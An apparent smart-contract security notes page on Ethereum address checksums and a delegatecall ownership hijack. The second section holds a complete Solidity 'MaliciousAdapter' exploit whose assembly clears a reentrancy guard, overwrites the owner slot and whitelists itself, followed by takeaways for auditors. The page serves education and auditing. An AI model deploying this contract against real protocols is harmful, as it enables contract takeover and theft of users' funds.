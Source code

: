 # Typical Security Vulnerabilities
A living knowledge base of common security issues and low-level quirks in Ethereum smart contract development. Includes real-world examples, attack patterns (like delegatecall-based ownership hijacks), and practical tooling for safe development and auditing workflows. *This document will be updated as I discover new exploits, patterns, or low-level tricks.*

---

## Ethereum Addresses Checksum
Ethereum itself (the EVM) is **not case sensitive** when it comes to addresses — you can use all lowercase addresses just fine. However, some front-end apps like **MetaMask** or **Etherscan** use a **mixed-case version** of the address for added safety. This is based on **EIP-55**, which defines a **checksum mechanism** using uppercase/lowercase letters to help catch typos.

So if you see an address like `0xF39Fd6e51aad88F6F4ce6aB8827279cffFb92266`, know that the uppercase letters are part of this checksum. You can still use the all-lowercase version — it’ll work in most tools — but mixed-case is preferred when available.

You can validate or convert an address to its checksummed version using Foundry’s `cast checksum` command:

```bash
cast to-check-sum-address 0xf39fd6e51aad88f6f4ce6ab8827279cfffb92266
```

:round_pushpin: Output:

```
0xF39Fd6e51aad88F6F4ce6aB8827279cffFb92266
```

This helps ensure the address is typed correctly — a small but useful tool for safer Ethereum development.

---

## 🧨 Delegatecall-Based Ownership Hijack

> Posted by @abhinabphy on 14.07.2025 in
> 🔥⚔🛡 ‹𝔽𝕠𝕦𝕟𝕕𝕣𝕪 & 𝔽𝕦𝕣𝕪› 🛡⚔🔥,  
> a Discord server dedicated to studying smart contract security and auditing.

This is a typical example of a **delegatecall vulnerability**, where a malicious contract abuses low-level storage writes to hijack ownership and bypass access controls.

### 🔓 `MaliciousAdapter.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

interface IAdapter {
    function executeSimpleSwap(
        address fromToken,
        address toToken,
        uint256 fromTokenAmount,
        bytes calldata data
    ) external payable;
}

contract MaliciousAdapter is IAdapter {
    function executeSimpleSwap(
        address, address, uint256, bytes calldata
    ) external payable override {
        assembly {
            // Unlock reentrancyGuard
            sstore(1, 0)

            // Overwrite owner slot (slot 0) with attacker's address
            sstore(0, 0x123)

            // Whitelist this adapter using known storage layout
            mstore(0x00, address())
            mstore(0x20, 2) // key for mapping: keccak256(address . 2)
            let slot := keccak256(0x00, 0x40)
            sstore(slot, 1)

            return(0, 0)
        }
    }

    receive() external payable {}
}
```

### 🧠 Key Takeaways:

* This exploits assumptions about storage layout (e.g., that `owner` is at slot `0`, etc.).
* These assumptions become dangerous when `delegatecall` is used to an **untrusted adapter**.
* Critical mappings and modifiers like `onlyOwner`, `reentrancyGuard`, or `whitelisted` can be **trivially bypassed** if storage alignment isn't protected.
